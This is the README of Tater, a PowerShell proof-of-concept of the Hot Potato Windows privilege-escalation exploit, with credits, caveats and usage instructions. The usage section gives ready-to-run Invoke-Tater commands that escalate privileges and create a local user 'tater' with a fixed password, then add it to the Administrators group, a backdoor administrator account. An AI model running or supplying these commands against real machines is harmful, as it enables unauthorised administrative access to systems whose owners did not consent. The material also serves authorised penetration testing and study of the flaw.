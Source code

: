 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation without any external libraries. This is mainly pieced together from existing Inveigh code.   

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
Use caution, this is still very much in a proof of concept stage. It’s only been tested on Windows 7. It’s also still missing a lot of the features in Potato.exe. 
  
The most likely thing to go wrong is that the HTTP listener will not give port 80 without closing out your PowerShell process.   

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add" –RunTime 10   
